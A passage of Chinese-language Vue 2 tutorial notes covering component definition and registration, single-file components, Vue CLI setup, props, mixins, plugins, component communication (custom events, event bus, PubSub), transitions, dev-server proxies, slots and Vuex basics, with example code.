    <h2>你好啊！{{name}}</h2>
   </div>
  `,
		data() {
			return {
				name: "Tom",
			};
		},
	});

	// 第二步：全局注册组件
	Vue.component("hello", hello);

	// 创建vm
	new Vue({
		el: "#root",
		data: {
			msg: "你好啊！",
		},
		// 第二步：注册组件（局部注册）
		components: {
			school,
			student,
		},
	});

	new Vue({
		el: "#root2",
	});
</script>
```

Vue 中使用组件的三大步骤：

- 一、定义组件(创建组件)
- 二、注册组件
- 三、使用组件(写组件标签)

**一、如何定义一个组件？**

使用 ==Vue.extend(options)== 创建，其中 options 和 new Vue(options) 时传入的那个 options 几乎一样，但也有点区别；

区别如下：

1. el 不要写，为什么？ ——— 最终所有的组件都要经过一个 vm 的管理，由 vm 中的 el 决定服务哪个容器。
2. data 必须写成函数，为什么？ ———— 避免组件被复用时，数据存在引用关系。

备注：==使用 template 可以配置组件结构==。

**二、如何注册组件？**

1. 局部注册：靠 ==new Vue 的时候传入 components 选项==
2. 全局注册：靠 ==Vue.component('组件名',组件)==

**三、编写组件标签：**

- \<school>\</school>

### 2.1.2 几个注意点

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<h1>{{msg}}</h1>
		<school></school>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false;

	// 定义组件
	const s = Vue.extend({
		name: "atguigu",
		template: `
   <div>
    <h2>学校名称：{{name}}</h2> 
    <h2>学校地址：{{address}}</h2> 
   </div>
  `,
		data() {
			return {
				name: "尚硅谷",
				address: "北京",
			};
		},
	});

	new Vue({
		el: "#root",
		data: {
			msg: "欢迎学习Vue!",
		},
		components: {
			school: s,
		},
	});
</script>
```

**几个注意点：**

1. 关于组件名:

   - 一个单词组成：

     - 第一种写法(首字母小写)：school
     - 第二种写法(首字母大写)：School

   - 多个单词组成：

     - 第一种写法( kebab-case 命名)：my-school
     - 第二种写法( CamelCase 命名)：MySchool (需要 Vue 脚手架支持)

   - 备注：

     - 组件名尽可能回避 HTML 中已有的元素名称，例如：h2、H2 都不行。
     - ==可以使用 name 配置项指定组件在开发者工具中呈现的名字==。

2. 关于组件标签:

   - 第一种写法：\<school>\</school>
   - 第二种写法：\<school/>
   - 备注：不用使用脚手架时，\<school/> 会导致后续组件不能渲染。

3. 一个简写方式：

   - ==const school = Vue.extend(options)== 可简写为：==const school = options==

### 2.1.3 组件的嵌套

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root"></div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。

	// 定义student组件
	const student = Vue.extend({
		name: "student",
		template: `
   <div>
    <h2>学生姓名：{{name}}</h2> 
    <h2>学生年龄：{{age}}</h2> 
   </div>
  `,
		data() {
			return {
				name: "尚硅谷",
				age: 18,
			};
		},
	});

	// 定义school组件
	const school = Vue.extend({
		name: "school",
		template: `
   <div>
    <h2>学校名称：{{name}}</h2> 
    <h2>学校地址：{{address}}</h2> 
    <student></student>
   </div>
  `,
		data() {
			return {
				name: "尚硅谷",
				address: "北京",
			};
		},
		// 注册组件（局部）
		components: {
			student,
		},
	});

	// 定义hello组件
	const hello = Vue.extend({
		template: `<h1>{{msg}}</h1>`,
		data() {
			return {
				msg: "欢迎来到尚硅谷学习！",
			};
		},
	});

	// 定义app组件
	const app = Vue.extend({
		template: `
   <div> 
    <hello></hello>
    <school></school>
   </div>
  `,
		components: {
			school,
			hello,
		},
	});

	// 创建vm
	new Vue({
		template: "<app></app>",
		el: "#root",
		// 注册组件（局部）
		components: {
			app,
		},
	});
</script>
```

### 2.1.4 VueComponent

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<school></school>
		<hello></hello>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false;

	//定义school组件
	const school = Vue.extend({
		name: "school",
		template: `
   <div>
    <h2>学校名称：{{name}}</h2> 
    <h2>学校地址：{{address}}</h2> 
    <button @click="showName">点我提示学校名</button>
   </div>
  `,
		data() {
			return {
				name: "尚硅谷",
				address: "北京",
			};
		},
		methods: {
			showName() {
				console.log("showName", this);
			},
		},
	});

	const test = Vue.extend({
		template: `<span>atguigu</span>`,
	});

	//定义hello组件
	const hello = Vue.extend({
		template: `
   <div>
    <h2>{{msg}}</h2>
    <test></test> 
   </div>
  `,
		data() {
			return {
				msg: "你好啊！",
			};
		},
		components: {
			test,
		},
	});

	// console.log('@',school)
	// console.log('#',hello)

	// 创建vm
	const vm = new Vue({
		el: "#root",
		components: {
			school,
			hello,
		},
	});
</script>
```

**关于 VueComponent：**

1. school 组件本质是一个名为 VueComponent 的构造函数，且不是程序员定义的，是 Vue.extend 生成的。
2. 我们只需要写 <school/> 或 \<school>\</school>，Vue 解析时会帮我们创建 school 组件的实例对象，即 Vue 帮我们执行的：new VueComponent(options)。
3. 特别注意：==每次调用 Vue.extend，返回的都是一个全新的 VueComponent！！！！==
4. 关于 this 指向：
   1. 组件配置中：
      - data 函数、methods 中的函数、watch 中的函数、computed 中的函数 它们的 this 均是【VueComponent 实例对象】。
   2. new Vue(options) 配置中：
      - data 函数、methods 中的函数、watch 中的函数、computed 中的函数 它们的 this 均是【Vue 实例对象】。
5. VueComponent 的实例对象，以后简称 vc（也可称之为：组件实例对象）。
   - Vue 的实例对象，以后简称 vm。

### 2.1.5 一个重要的内置关系

```html
<body>
	<!-- 准备好一个容器-->
	<div id="root">
		<school></school>
	</div>
</body>

<script type="text/javascript">
	Vue.config.productionTip = false; // 阻止 vue 在启动时生成生产提示。
	Vue.prototype.x = 99;

	// 定义school组件
	const school = Vue.extend({
		name: "school",
		template: `
   <div>
    <h2>学校名称：{{name}}</h2> 
    <h2>学校地址：{{address}}</h2> 
    <button @click="showX">点我输出x</button>
   </div>
  `,
		data() {
			return {
				name: "尚硅谷",
				address: "北京",
			};
		},
		methods: {
			showX() {
				console.log(this.x);
			},
		},
	});

	// 创建一个vm
	const vm = new Vue({
		el: "#root",
		data: {
			msg: "你好",
		},
		components: {
			school,
		},
	});

	// 定义一个构造函数
	/* function Demo(){
  this.a = 1
  this.b = 2
 }
 // 创建一个Demo的实例对象
 const d = new Demo()

 console.log(Demo.prototype) // 显式原型属性，函数才有

 console.log(d.__proto__) // 隐式原型属性，实例对象才有

 console.log(Demo.prototype === d.__proto__)

 // 程序员通过显示原型属性操作原型对象，追加一个x属性，值为99
 Demo.prototype.x = 99

 console.log('@',d) */
</script>
```

1. 一个重要的内置关系：==VueComponent.prototype.\_\_proto\_\_ === Vue.prototype==
2. 为什么要有这个关系：让组件实例对象（vc）可以访问到 Vue 原型上的属性、方法。



- prototype：显式原型属性，函数才有
- \_\_proto\_\_：隐式原型属性，实例对象才有
- 实例的隐式原型属性(\_\_proto\_\_)永远指向自己缔造者的原型对象

## 2.2. 单文件组件

**单文件组件**：一个文件中只包含 1 个组件。

**index.html**

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>练习一下单文件组件的语法</title>
	</head>

	<body>
		<!-- 准备一个容器 -->
		<div id="root"></div>
		<!-- <script type="text/javascript" src="../js/vue.js"></script> -->
		<!-- <script type="text/javascript" src="./main.js"></script> -->
	</body>
</html>
```

**School.vue**

```html
<template>
	<div class="demo">
		<h2>学校名称：{{name}}</h2>
		<h2>学校地址：{{address}}</h2>
		<button @click="showName">点我提示学校名</button>
	</div>
</template>

<script>
	export default {
		name: "School", // 最好与文件名保持一致
		data() {
			return {
				name: "尚硅谷",
				address: "北京昌平",
			};
		},
		methods: {
			showName() {
				alert(this.name);
			},
		},
	};
</script>

<style>
	.demo {
		background-color: orange;
	}
</style>
```

**Student.vue**

```html
<template>
	<div>
		<h2>学生姓名：{{name}}</h2>
		<h2>学生年龄：{{age}}</h2>
	</div>
</template>

<script>
	export default {
		name: "Student",
		data() {
			return {
				name: "张三",
				age: 18,
			}
		}
	}
</script>
```

**App.vue** （用于汇总所有组件）

```html
<template>
	<div>
		<School></School>
		<Student></Student>
	</div>
</template>

<script>
	//引入组件
	import School from "./School.vue";
	import Student from "./Student.vue";

	export default {
		name: "App",
		components: {
			School,
			Student,
		}
	}
</script>
```

**main.js**

```js
import App from "./App.vue";

new Vue({
	el: "#root",
	template: `<App></App>`,
	components: {
		App,
	}
})
```

# 第三章 使用 Vue 脚手架

## 3.1. 初始化脚手架

### 3.1.1 说明

1. Vue 脚手架是 Vue 官方提供的标准化开发工具（开发平台）。
2. 最新的版本是 4.x。
3. 文档: [https://cli.vuejs.org/zh/](https://cli.vuejs.org/zh/)

### 3.1.2 具体步骤

- 第一步（仅第一次执行）：全局安装@vue/cli。

```sh
npm install -g @vue/cli
```

- 第二步：切换到你要创建项目的目录，然后使用命令创建项目

```sh
vue create xxxx
```

- 第三步：启动项目

```sh
npm run serve
```

- 备注：

1. 如出现下载缓慢请配置 npm 淘宝镜像：

```sh
npm config set registry https://registry.npm.taobao.org
```

2. Vue 脚手架隐藏了所有 webpack 相关的配置，若想查看具体的 webpakc 配置，请执行：

```sh
vue inspect > output.js
```

### 3.1.3 模板项目的结构

```md
├── node_modules
├── public
│ ├── favicon.ico: 页签图标
│ └── index.html: 主页面
├── src
│ ├── assets: 存放静态资源
│ │ └── logo.png
│ │── component: 存放组件
│ │ └── HelloWorld.vue
│ │── App.vue: 汇总所有组件
│ │── main.js: 入口文件
├── .gitignore: git 版本管制忽略的配置
├── babel.config.js: babel 的配置文件
├── package.json: 应用包配置文件
├── README.md: 应用描述文件
├── package-lock.json：包版本控制文件
```

### 3.1.4 render 函数

关于不同版本的 Vue：

1. vue.js 与 vue.runtime.xxx.js 的区别：
   1. vue.js 是完整版的 Vue，包含：核心功能+模板解析器。
   2. vue.runtime.xxx.js 是运行版的 Vue，只包含：核心功能；没有模板解析器。
2. 因为 vue.runtime.xxx.js 没有模板解析器，所以不能使用 template 配置项，需要使用 render 函数接收到的 createElement 函数去指定具体内容。

```js
new Vue({
	el: "#app",
	//render函数完成了这个功能：将App组件放入容器中
	render: (h) => h(App),
	// render:q=> q('h1','你好啊')

	// template:`<h1>你好啊</h1>`,
	// components:{App},
})
```

### 3.1.5 修改默认配置

==在 package.json 同级目录下创建 vue.config.js 文件==，在其中对脚手架进行自定义配置。

**注意**：配置完后需要重新 `npm run serve` 一下才能有效果。

`vue.config.js`

```js
module.exports = {
	pages: {
		index: {
			// 入口
			entry: "src/main.js",
		},
	},
	lintOnSave: false, // 关闭语法检查
	// 开启代理服务器（方式一）
	/* devServer: {
    proxy: 'http://localhost:5000'
  }, */
	// 开启代理服务器（方式二）
	devServer: {
		proxy: {
			"/atguigu": {
				target: "http://localhost:5000",
				pathRewrite: {
					"^/atguigu": "",
				},
				// ws: true, // 用于支持websocket
				// changeOrigin: true // 用于控制请求头中的host值
			},
			"/demo": {
				target: "http://localhost:5001",
				pathRewrite: {
					"^/demo": "",
				},
				// ws: true, // 用于支持websocket
				// changeOrigin: true // 用于控制请求头中的host值
			}
		}
	}
}
```

1. 使用 vue inspect > output.js 可以查看到 Vue 脚手架的默认配置。
2. 使用 vue.config.js 可以对脚手架进行个性化定制，详情见：[https://cli.vuejs.org/zh](https://cli.vuejs.org/zh)

## 3.2 ref 属性与 props 配置

**ref 属性**

```html
<template>
	<div>
		<h1 v-text="msg" ref="title"></h1>
		<button ref="btn" @click="showDOM">点我输出上方的DOM元素</button>
		<School ref="sch" />
	</div>
</template>

<script>
	// 引入School组件
	import School from "./components/School";

	export default {
		name: "App",
		components: {
			School,
		},
		data() {
			return {
				msg: "欢迎学习Vue！",
			};
		},
		methods: {
			showDOM() {
				console.log(this.$refs.title); // 真实DOM元素
				console.log(this.$refs.btn); // 真实DOM元素
				console.log(this.$refs.sch); // School组件的实例对象（vc）
			}
		}
	}
</script>
```

1. **作用**：==用于给节点打标识==
2. **读取方式**：`this.$refs.xxxxxx`

**说明**：

1. 被用来给元素或子组件注册引用信息（id 的替代者）
2. 应用在 html 标签上获取的是真实 DOM 元素，应用在组件标签上是组件实例对象（vc）
3. 使用方式：
    1. 打标识：`<h1 ref="xxx">.....</h1>` 或 `<School ref="xxx"></School>`
    2. 获取：`this.$refs.xxx`

---

**props 配置**

`App.vue`

```html
<template>
	<div>
		<Student name="李四" sex="女" :age="18"/>
	</div>
</template>

<script>
	import Student from './components/Student'

	export default {
		name:'App',
		components:{Student}
	}
</script>
```

`Student.vue`

~~~html
<template>
	<div>
		<h1>{{msg}}</h1>
		<h2>学生姓名：{{name}}</h2>
		<h2>学生性别：{{sex}}</h2>
		<h2>学生年龄：{{myAge+1}}</h2>
		<button @click="updateAge">尝试修改收到的年龄</button>
	</div>
</template>

<script>
	export default {
		name:'Student',
		data() {
			console.log(this)
			return {
				msg:'我是一个尚硅谷的学生',
				myAge:this.age
			}
		},
		methods: {
			updateAge(){
				this.myAge++
			}
		},
		// 简单声明接收
		// props:['name','age','sex'] 

		//接收的同时对数据进行类型限制
		/* props:{
			name:String,
			age:Number,
			sex:String
		} */

		// 接收的同时对数据：进行类型限制+默认值的指定+必要性的限制
		props:{
			name:{
				type: String, // name 的类型是字符串
				required: true, // name 是必要的
			},
			age:{
				type: Number,
				default: 99 // 默认值
			},
			sex:{
				type: String,
				required: true
			}
		}
	}
</script>
~~~

1. **作用**：==用于父组件给子组件传递数据==
2. 读取方式一: **只指定名称**

```js
props: ["name", "age", "setName"];
```

3. 读取方式二: **指定名称和类型**

```js
props: {
	name: String,
	age: Number,
	setNmae: Function
}
```

4. 读取方式三: **指定名称/类型/必要性/默认值**

```js
props: {
    name: {
        type: String,
        required: true,
        default: xxx
    }
}
```

 > **备注**：props 是只读的，Vue 底层会监测你对 props 的修改，如果进行了修改，就会发出警告，若业务需求确实需要修改，那么请复制 props 的内容到 data 中一份，然后去修改 data 中的数据。

## 3.3 mixin 混入

`mixin.js`

~~~js
export const hunhe = {
	methods: {
		showName(){
			alert(this.name)
		}
	},
	mounted() {
		console.log('你好啊！')
	},
}
export const hunhe2 = {
	data() {
		return {
			x:100,
			y:200
		}
	},
}
~~~

`Student.js`

```html
<template>
	<div>
		<h2 @click="showName">学生姓名：{{name}}</h2>
		<h2>学生性别：{{sex}}</h2>
	</div>
</template>

<script>
	import {hunhe,hunhe2} from '../mixin'

	export default {
		name:'Student',
		data() {
			return {
				name:'张三',
				sex:'男'
			}
		},
		mixins: [hunhe, hunhe2]
	}
</script>
```

1. **功能**：==可以把多个组件共用的配置提取成一个混入对象==
2. **使用方式**：

   - 第一步 **定义混合**：

    ```js
    {
        data(){....},
        methods:{....}
        ....
    }
    ```

    - 第二步 **使用混入**：

        1. **全局混入**：`Vue.mixin(xxx)`  (在 `main.js` 中引入)
        2. **局部混入**：`mixins:['xxx']`

## 3.4 插件

`plugins.js`

```js
export default {
	install(Vue, x, y, z){
		console.log(x, y, z)
		// 全局过滤器
		Vue.filter('mySlice',function(value){
			return value.slice(0, 4)
		})

		// 定义全局指令
		Vue.directive('fbind',{
			// 指令与元素成功绑定时（一上来）
			bind(element,binding){
				element.value = binding.value
			},
			// 指令所在元素被插入页面时
			inserted(element,binding){
				element.focus()
			},
			// 指令所在的模板被重新解析时
			update(element,binding){
				element.value = binding.value
			}
		})

		// 定义混入
		Vue.mixin({
			data() {
				return {
					x:100,
					y:200
				}
			},
		})

		// 给Vue原型上添加一个方法（vm和vc就都能用了）
		Vue.prototype.hello = ()=>{alert('你好啊')}
	}
}
```

`main.js`

```js
// 引入插件
import plugins from './plugins'

// 应用(使用)插件
Vue.use(plugins)
```

1. Vue 插件是一个包含 install 方法的对象
2. 通过 install 方法给 Vue 或 Vue 实例添加方法, 定义全局指令等
3. **功能**：用于增强 Vue
4. **本质**：包含 install 方法的一个对象，install 的第一个参数是 Vue，第二个以后的参数是插件使用者传递的数据。
5. **定义插件**：

    ```js
    对象.install = function (Vue, options) {
        // 1. 添加全局过滤器
        Vue.filter(....)
    
        // 2. 添加全局指令
        Vue.directive(....)
    
        // 3. 配置全局混入(合)
        Vue.mixin(....)
    
        // 4. 添加实例方法
        Vue.prototype.$myMethod = function () {...}
        Vue.prototype.$myProperty = xxxx
    }
    ```

4. **使用插件**：```Vue.use()```

## scoped 样式

```html
<style scoped>
	.demo{
		background-color: skyblue;
	}
</style>
```

1. **作用**：==让样式在局部生效，防止冲突==。
2. **写法**：```<style scoped></style>```

## 3.5 Todo-list 案例

## Todo-list 案例总结

1. 组件化编码流程：

    ​	(1).拆分静态组件：组件要按照功能点拆分，命名不要与 html 元素冲突。

    ​	(2).实现动态组件：考虑好数据的存放位置，数据是一个组件在用，还是一些组件在用：

    ​			1).一个组件在用：放在组件自身即可。

    ​			2). 一些组件在用：放在他们共同的父组件上（==状态提升==）。

    ​	(3).实现交互：从绑定事件开始。

2. props 适用于：

    ​	(1).父组件 ==> 子组件 通信

    ​	(2).子组件 ==> 父组件 通信（要求父先给子一个函数）

3. ==使用 `v-model` 时要切记：`v-model` 绑定的值不能是 props 传过来的值，因为 props 是不可以修改的！==

4. ==props 传过来的若是对象类型的值，修改对象中的属性时 Vue 不会报错，但不推荐这样做==。

## webStorage

1. 存储内容大小一般支持 5MB 左右（不同浏览器可能还不一样）

2. 浏览器端通过 `Window.sessionStorage` 和 `Window.localStorage` 属性来实现本地存储机制。

3. **相关 API**：

    1. ```xxxxxStorage.setItem('key', 'value');```
				该方法==接受一个键和值作为参数，会把键值对添加到存储中，如果键名存在，则更新其对应的值==。

    2. ```xxxxxStorage.getItem('person');```

        ​		该方法==接受一个键名作为参数，返回键名对应的值==。

    3. ```xxxxxStorage.removeItem('key');```

        ​		该方法==接受一个键名作为参数，并把该键名从存储中删除==。

    4. ``` xxxxxStorage.clear()```

        ​		该方法会==清空存储中的所有数据==。

4. 备注：

    1. `SessionStorage` 存储的==内容会随着浏览器窗口关闭而消失==。
    2. `LocalStorage` 存储的内容，==需要手动清除才会消失==。
    3. ```xxxxxStorage.getItem(xxx)```如果 xxx 对应的 value 获取不到，那么 getItem 的返回值是 null。
    4. ```JSON.parse(null)```的结果依然是 null。

## 3.6 Vue 中的自定义事件

### 绑定事件监听

```html
<template>
	<Header @addTodo="addTodo"/>
</template>
```

或者

```html
<template>
	<Header ref="header"/>
</template>

<script>
	this.$refs.header.$on('addTodo', this.addTodo)
</script>
```

### 触发事件

```js
this.$emit('addTodo', todo)
```

### 解绑自定义事件

1. 解绑一个自定义事件

```js
this.$off('atguigu')
```

2. 解绑多个自定义事件

```js
this.$off(['atguigu', 'demo'])
```

3. 解绑所有自定义事件

```js
this.$off()
```

4. 解绑自定义事件（一次性）

```js
this.$refs.student.$once('atguigu')
```

### 自定义事件总结

1. 一种组件间通信的方式，适用于：<strong style="color:red">子组件 ===> 父组件</strong>

2. 使用场景：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件（<span style="color:red">事件的回调在A中</span>）。

3. 绑定自定义事件：

    1. 第一种方式，在父组件中：```<Demo @atguigu="test"/>```  或 ```<Demo v-on:atguigu="test"/>```

    2. 第二种方式，在父组件中：

        ```js
        <Demo ref="demo"/>
        ......
        mounted(){
           this.$refs.xxx.$on('atguigu',this.test)
        }
        ```

    3. 若想让自定义事件只能触发一次，可以使用```once```修饰符，或```$once```方法。

4. 触发自定义事件：```this.$emit('atguigu',数据)```		

5. 解绑自定义事件```this.$off('atguigu')```

6. 组件上也可以绑定原生DOM事件，需要使用```native```修饰符。

7. 注意：通过```this.$refs.xxx.$on('atguigu',回调)```绑定自定义事件时，回调<span style="color:red">要么配置在methods中</span>，<span style="color:red">要么用箭头函数</span>，否则this指向会出问题！

## 3.7 全局事件总线

### 3.7.1 理解

1. Vue 原型对象上包含事件处理的方法
   
   1. `$on(eventName, listener)`: 绑定自定义事件监听
   2. `$emit(eventName, data)`: 分发自定义事件
   3. `$off(eventName)`: 解绑自定义事件监听
   4. `$once(eventName, listener)`: 绑定事件监听, 但只能处理一次

2. 所有组件实例对象的原型对象的原型对象就是 Vue 的原型对象

   1. 所有组件对象都能看到 Vue 原型对象上的属性和方法
   2. `Vue.prototype.\$bus = new Vue()`, 所有的组件对象都能看到 `$bus` 这个属性对象

3. 全局事件总线

   1. 包含事件处理相关方法的对象(只有一个)
   2. 所有的组件都可以得到

### 3.7.2 指定事件总线对象

```js
new Vue({
	beforeCreate () { // 尽量早的执行挂载全局事件总线对象的操作
		Vue.prototype.$globalEventBus = this
	},
}).$mount('#root')
```

### 3.7.3 绑定事件

```js
this.$globalEventBus.$on('deleteTodo', this.deleteTodo)
```

### 3.7.4 分发事件

```js
this.$globalEventBus.$emit('deleteTodo', this.index)
```

### 3.7.5 解绑事件

```js
this.$globalEventBus.$off('deleteTodo')
```

### 总结

1. 一种组件间通信的方式，适用于<span style="color:red">任意组件间通信</span>。

2. 安装全局事件总线：

   ```js
   new Vue({
   	......
   	beforeCreate() {
   		Vue.prototype.$bus = this //安装全局事件总线，$bus就是当前应用的vm
   	},
       ......
   }) 
   ```

3. 使用事件总线：

   1. 接收数据：A组件想接收数据，则在A组件中给$bus绑定自定义事件，事件的<span style="color:red">回调留在A组件自身。</span>

      ```js
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.$bus.$on('xxxx',this.demo)
      }
      ```

   2. 提供数据：```this.$bus.$emit('xxxx',数据)```

4. 最好在 `beforeDestroy` 钩子中，用 `$off` 去解绑<span style="color:red">当前组件所用到的</span>事件。

## 3.8 消息订阅与发布

### 3.8.1 理解

1. 这种方式的思想与全局事件总线很相似
2. 它包含以下操作:
	
	1. 订阅消息 --对应绑定事件监听
	2. 发布消息 --分发事件
	3. 取消消息订阅 --解绑事件监听

3. 需要引入一个消息订阅与发布的第三方实现库: `PubSubJS`

### 3.8.2 使用 PubSubJS

1. 在线文档: [https://github.com/mroderick/PubSubJS](https://github.com/mroderick/PubSubJS)
2. 下载: `npm install -S pubsub-js`
3. 相关语法
	
	1. `import PubSub from 'pubsub-js'` // 引入
	2. `PubSub.subscribe(‘msgName’, functon(msgName, data){ })`
	3. `PubSub.publish(‘msgName’, data)`: 发布消息, 触发订阅的回调函数调用
	4. `PubSub.unsubscribe(token)`: 取消消息的订阅

### 总结

1.   一种组件间通信的方式，适用于<span style="color:red">任意组件间通信</span>。

2. 使用步骤：

   1. 安装pubsub：```npm i pubsub-js```

   2. 引入: ```import pubsub from 'pubsub-js'```

   3. 接收数据：A组件想接收数据，则在 A 组件中订阅消息，订阅的<span style="color:red">回调留在 A 组件自身。</span>

      ```js
      methods(){
        demo(data){......}
      }
      ......
      mounted() {
        this.pid = pubsub.subscribe('xxx',this.demo) //订阅消息
      }
      ```

   4. 提供数据：```pubsub.publish('xxx',数据)```

   5. 最好在 `beforeDestroy` 钩子中，用```PubSub.unsubscribe(pid)```去<span style="color:red">取消订阅。</span>

## nextTick

1. **语法**：```this.$nextTick(回调函数)```
2. **作用**：==在下一次 DOM 更新结束后执行其指定的回调==。
3. 什么时候用：当改变数据后，要基于更新后的新 DOM 进行某些操作时，要在 nextTick 所指定的回调函数中执行。

## 3.9 过度与动画

### 3.9.1 vue 动画的理解

1. 操作 css 的 trasition 或 animation
2. vue 会给目标元素添加/移除特定的 class
3. 过渡的相关类名：
   1. `xxx-enter-active`: 指定显示的 transition
   2. `xxx-leave-active`: 指定隐藏的 transition
   3. `xxx-enter/xxx-leave-to`: 指定隐藏时的样式

### 3.9.2 基本过渡动画的编码

1. 在目标元素外包裹\<transition name="xxx">
2. 定义 class 样式
	
	1. 指定过渡样式: transition
	2. 指定隐藏时的样式: opacity/其它 

### 总结

1. **作用**：在插入、更新或移除 DOM 元素时，在合适的时候给元素添加样式类名。

2. **写法**：

   1. 准备好样式：

      - 元素进入的样式：
        1. `v-enter`：进入的起点
        2. `v-enter-active`：进入过程中
        3. `v-enter-to`：进入的终点
      - 元素离开的样式：
        1. `v-leave`：离开的起点
        2. `v-leave-active`：离开过程中
        3. `v-leave-to`：离开的终点

   2. 使用```<transition>```包裹要过度的元素，并配置 `name` 属性：

      ```vue
      <transition name="hello">
      	<h1 v-show="isShow">你好啊！</h1>
      </transition>
      ```

   3. 备注：若有多个元素需要过度，则需要使用：```<transition-group>```，且每个元素都要指定```key```值。

# 第四章 Vue 中的 ajax

## 4.1 解决开发环境 Ajax 跨域问题

使用代理服务器

### vue脚手架配置代理

#### 方法一

​	在 `vue.config.js` 中添加如下配置：

```js
devServer:{
  proxy:"http://localhost:5000"
}
```

**说明**：

1. **优点**：配置简单，请求资源时直接发给前端（8080）即可。
2. **缺点**：不能配置多个代理，不能灵活的控制请求是否走代理。
3. **工作方式**：若按照上述配置代理，当请求了前端不存在的资源时，那么该请求会转发给服务器 （优先匹配前端资源）

#### 方法二

​	编写 `vue.config.js` 配置具体代理规则：

```js
module.exports = {
	devServer: {
      proxy: {
      '/api1': {// 匹配所有以 '/api1'开头的请求路径
        target: 'http://localhost:5000',// 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: {'^/api1': ''}
      },
      '/api2': {// 匹配所有以 '/api2'开头的请求路径
        target: 'http://localhost:5001',// 代理目标的基础路径
        changeOrigin: true,
        pathRewrite: {'^/api2': ''}
      }
    }
  }
}
/*
   changeOrigin设置为true时，服务器收到的请求头中的host为：localhost:5000
   changeOrigin设置为false时，服务器收到的请求头中的host为：localhost:8080
   changeOrigin默认值为true
*/
```

**说明**：

1. **优点**：可以配置多个代理，且可以灵活的控制请求是否走代理。
2. **缺点**：配置略微繁琐，请求资源时必须加前缀。

## 4.2 github 用户搜索案例

### 4.2.2 接口地址

[https://api.github.com/search/users?q=xxx](https://api.github.com/search/users?q=xxx)

## 4.3 vue 项目中常用的 2 个 Ajax 库

### 4.3.1 axios

通用的 Ajax 请求库, 官方推荐，使用广泛

### 4.3.2 vue-resource

vue 插件库, vue1.x 使用广泛，==官方已不维护==。

## 4.4 slot 插槽

### 4.4.1 理解

父组件向子组件传递带数据的标签，当一个组件有不确定的结构时, 就需要使用 slot 技术，注意：插槽内容是在父组件中编译后, 再传递给子组件的。

### 4.4.2 分类

1. 默认插槽
2. 命名插槽
3. 作用域插槽

### 总结

1. **作用**：让父组件可以向子组件指定位置插入 html 结构，也是一种组件间通信的方式，适用于 <strong style="color:red">父组件 ===> 子组件</strong> 。

2. **分类**：默认插槽、具名插槽、作用域插槽

3. **使用方式**：

   1. **默认插槽**：

      ```vue
      父组件中：
              <Category>
                 <div>html结构1</div>
              </Category>
      子组件中：
              <template>
                  <div>
                     <!-- 定义插槽 -->
                     <slot>插槽默认内容...</slot>
                  </div>
              </template>
      ```

   2. **具名插槽**：

      ```vue
      父组件中：
              <Category>
                  <template slot="center">
                    <div>html结构1</div>
                  </template>
      
                  <template v-slot:footer>
                     <div>html结构2</div>
                  </template>
              </Category>
      子组件中：
              <template>
                  <div>
                     <!-- 定义插槽 -->
                     <slot name="center">插槽默认内容...</slot>
                     <slot name="footer">插槽默认内容...</slot>
                  </div>
              </template>
      ```

   3. **作用域插槽**：

      1. 理解：<span style="color:red">数据在组件的自身，但根据数据生成的结构需要组件的使用者来决定。</span>（games 数据在 Category 组件中，但使用数据所遍历出来的结构由 App 组件决定）

      2. 具体编码：

         ```vue
         父组件中：
         		<Category>
         			<template scope="scopeData">
         				<!-- 生成的是ul列表 -->
         				<ul>
         					<li v-for="g in scopeData.games" :key="g">{{g}}</li>
         				</ul>
         			</template>
         		</Category>
         
         		<Category>
         			<template slot-scope="scopeData">
         				<!-- 生成的是h4标题 -->
         				<h4 v-for="g in scopeData.games" :key="g">{{g}}</h4>
         			</template>
         		</Category>
         子组件中：
                 <template>
                     <div>
                         <slot :games="games"></slot>
                     </div>
                 </template>
         		
                 <script>
                     export default {
                         name:'Category',
                         props:['title'],
                         //数据在子组件自身
                         data() {
                             return {
                                 games:['红色警戒','穿越火线','劲舞团','超级玛丽']
                             }
                         },
                     }
                 </script>
         ```

# 第五章 vuex

## 5.1 理解 vuex

### 5.1.1 vuex 是什么

1. 概念：专门在 Vue 中实现集中式状态（数据）管理的一个 Vue 插件，对 vue 应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。
2. Github 地址: [https://github.com/vuejs/vuex](https://github.com/vuejs/vuex)

### 5.1.2 什么时候使用 Vuex

1. ==多个组件依赖于同一状态==
2. ==来自不同组件的行为需要变更同一状态==

### 5.1.4 Vuex 工作原理图


## 5.2 vuex 核心概念和 API

### 5.2.1 state

1. vuex 管理的状态对象
2. 它应该是==唯一==的
3. 示例代码：

```js
const state = {
	xxx: initValue
}
```

### 5.2.2 actions

1. 值为一个对象，包含多个响应用户动作的回调函数
2. 通过 `commit( )` 来触发 `mutation` 中函数的调用, 间接更新 `state`
3. 如何触发 actions 中的回调？
	- 在组件中使用: `$store.dispatch('对应的 action 回调名')` 触发
4. 可以包含异步代码（定时器, ajax 等等）
5. 示例代码：

```js
const actions = {
	zzz ({commit, state}, data1) {
		commit('yyy', {data1})
	}
}
```

### 5.2.3 mutations

1. 值是一个对象，包含多个直接更新 state 的方法
2. 谁能调用 mutations 中的方法？如何调用？
	- 在 action 中使用：`commit('对应的 mutations 方法名')` 触发
3. mutations 中方法的特点：不能写异步代码、只能单纯的操作 state
4. 示例代码：

```js
const mutations = {
	yyy (state, {data1}) {
		// 更新 data 的某个属性
	}
}
```

### 5.2.4 getters

1. 值为一个对象，包含多个用于返回数据的函数
2. 如何使用？—— `$store.getters.xxx`
3. 示例代码：

```js
const getter = {
	mmm (state) {
		return state.msg + '!'
	}
}
```

### 5.2.5 modules

1. 包含多个 module
2. 一个 module 是一个 store 的配置对象
3. 与一个组件（包含有共享数据）对应

### 总结

#### 1.概念

​		在 Vue 中实现集中式状态（数据）管理的一个 Vue 插件，对 vue 应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。

#### 2.何时使用？

​		多个组件需要共享数据时

